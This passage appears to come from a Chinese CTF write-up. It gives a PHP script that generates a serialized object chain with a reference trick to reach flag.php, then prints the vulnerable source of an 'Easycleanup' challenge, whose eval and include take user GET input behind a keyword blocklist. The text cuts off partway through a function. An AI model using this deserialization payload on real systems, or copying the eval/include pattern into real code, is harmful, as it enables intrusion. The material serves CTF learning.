 南方师傅的wp,他这个有点复杂，但是可以学一下思想

```php
<?php
class acp
{
    protected $cinder;
    public $neutron;
    public $nova;
    function __construct($cinder)
    {
        $this -> cinder = $cinder;
        $this -> neutron = &$this -> nova;
    }
}

class ace
{
    public $filename = "flag.php";
    public $openstack;
    public $docker;
    function __construct($docker)
    {
        $this -> docker = $docker;
    }
}

echo urlencode(serialize(new acp(new ace(serialize(new acp(""))))));
```

##  Easycleanup

```php
 <?php

if(!isset($_GET['mode'])){
    highlight_file(__file__);
}else if($_GET['mode'] == "eval"){
    $shell = $_GET['shell'] ?? 'phpinfo();';
    if(strlen($shell) > 15 | filter($shell) | checkNums($shell)) exit("hacker");
    eval($shell);
}


if(isset($_GET['file'])){
    if(strlen($_GET['file']) > 15 | filter($_GET['file'])) exit("hacker");
    include $_GET['file'];
}


function filter($var): bool{
    $banned = ["while", "for", "\$_", "include", "env", "require", "?", ":", "^", "+", "-", "%", "*", "`"];

    foreach($banned as $ban){
        if(strstr($var, $ban)) return True;
    }

    return False;
}

function checkNums($var): bool{
    $alphanum = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $cnt = 0;
```